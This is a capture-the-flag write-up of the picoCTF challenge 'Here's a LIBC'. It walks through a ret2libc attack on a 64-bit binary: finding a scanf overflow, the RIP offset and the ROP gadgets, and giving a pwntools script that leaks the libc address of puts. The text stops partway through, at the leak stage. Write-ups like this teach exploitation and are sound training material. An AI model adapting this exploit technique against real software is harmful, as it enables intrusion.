 # Here's a LIBC
> Write-up author: jon-brandy
## DESCRIPTION:
I am once again asking for you to pwn this binary vuln libc.so.6 Makefile nc mercury.picoctf.net 42072
## HINT:
1. PWNTools has a lot of useful features for getting offsets.
## STEPS:
1. Given a 64 bit binary file and the libc library.

![image](https://user-images.githubusercontent.com/70703371/223358966-7cf60cff-0c08-494c-9a00-5fdfd1d75206.png)


![image](https://user-images.githubusercontent.com/70703371/223359029-ea4e1434-370b-493f-bb2f-0e63350e8406.png)


2. Let's check it's protections then.

> VULN -> Partial RELRO, No Canary Found, No PIE.

![image](https://user-images.githubusercontent.com/70703371/223359201-b7035a95-3529-41ac-bc63-131855069c46.png)


3. Based from the challenge's title and the protections it has, we shall do **ret2libc attack**.
4. Let's make the binary executeable first then run it.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/223359504-53a443d5-44e2-4466-ac0f-8a5c0463ff2b.png)


5. Seems like we need to patch the binary in order to run it.
6. Luckily there's a tool named **pwninit** to patch the binary.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/223360625-16e97db6-3196-47b3-9e8f-94a2cafc3b3f.png)


![image](https://user-images.githubusercontent.com/70703371/223360687-0f801324-3df4-4a6c-a3d5-a100b73ac2ba.png)


7. Great! Now we have the patched binary file.
8. Let's try to run it now.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/223360953-abb6a2d8-9867-47c1-9054-00416d156b38.png)


9. It keeps prompt us an input.
10. Let's decompile the binary.

> vuln found at do_stuff() function

![image](https://user-images.githubusercontent.com/70703371/223361583-1f99a958-75ab-4249-a896-8cb08c2bdda3.png)


![image](https://user-images.githubusercontent.com/70703371/223361797-c73bf01b-50a9-4d3b-b59c-557e86f74a0e.png)


11. No filter for the `local_88` variable's scanf, means we can overflow the buffer here and control the **RIP**.
12. And for the `local_89` nothing special.

![image](https://user-images.githubusercontent.com/70703371/223362107-931e9354-4ede-4214-84e6-d9ec34125633.png)


13. The loop also won't be our interest here, because it just convert the case of our input.

![image](https://user-images.githubusercontent.com/70703371/223362543-2f610585-1702-4a6d-a624-27cd386337ef.png)


14. Notice we can leak the **libc runtime** using the puts call.

![image](https://user-images.githubusercontent.com/70703371/223362671-b762ae20-1b9b-42fc-a2c0-8c8f4deaf1d9.png)


15. Anyway let's get the **RIP** offset first.

> ENTER CYCLIC 1024 PATTERN

![image](https://user-images.githubusercontent.com/70703371/223362959-fa30a12b-9a39-470d-8838-58e08f5d60ca.png)


> USE THE LEAKED RSP BYTES 

![image](https://user-images.githubusercontent.com/70703371/223363070-91428397-976f-4cf5-9a19-d512620498d6.png)


16. Hence we need to enter 136 bytes as the padding.
17. Since we want to leak the **libc runtime** using the puts function, we have to make a **ROP** exploit where the `puts()` function shall call the puts. -> `puts(puts)`.
18. With this, the program shall printed out the address where `puts` is loaded inside the libc.
19. To do this we need `pop rdi` gadget, `puts@plt` offset and `puts@got` offset. We can automate the search with **pwntools**, but i prefered to do it manually.

> GET THE RDI -> 0x0000000000400913

![image](https://user-images.githubusercontent.com/70703371/223365336-cab343e4-20c4-49b7-878d-21fa116a1fd4.png)


> GET THE PUTS@PLT -> 0x400540

![image](https://user-images.githubusercontent.com/70703371/223365541-830ca543-3b8e-480d-b7ef-90f9bcc64b46.png)


> GET THE PUTS@GOT (USING PWNTOOLS) FOR THIS -> 0x601018

![image](https://user-images.githubusercontent.com/70703371/223365888-9c017687-ff5d-436c-9f4c-2790f19080f4.png)


20. To summarize, the payloads we need to send are:

```
padding (RIP offset),
pop_rdi,
puts_got,
puts_plt
```

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe], *a, **kw)

exe = './vuln_patched'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'

lib = './libc.so.6'
libc = context.binary = ELF(lib, checksec=False)

sh = start()

offsetRsp = 136 # padding to RIP

puts_got = elf.got['puts']
info('Puts Got: %#0x', puts_got)

pop_rdi_gadget = 0x0000000000400913
info('RDI: %#0x', pop_rdi_gadget)

puts_plt = elf.plt['puts']
info('Puts PLT: %#0x', puts_plt)

p = flat([
    asm('nop')*offsetRsp,
    pop_rdi_gadget,
    puts_got,
    puts_plt
])

sh.sendline(p)


sh.interactive()

```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/223367470-ae362321-9b99-473a-bd18-2db16cb8637a.png)


21. Got 3 results.
22. 





